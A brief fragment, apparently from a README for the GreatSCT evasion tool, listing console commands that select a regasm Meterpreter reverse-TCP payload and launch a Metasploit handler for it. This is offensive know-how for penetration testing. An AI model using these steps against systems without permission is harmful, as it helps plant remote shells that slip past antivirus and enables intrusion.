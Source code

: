 	>use Bypass
	>list
	>use regasm/meterpreter/rev_tcp.py
	>msfconsole -r /usr/share/greatsct-output/handlers/payload.rc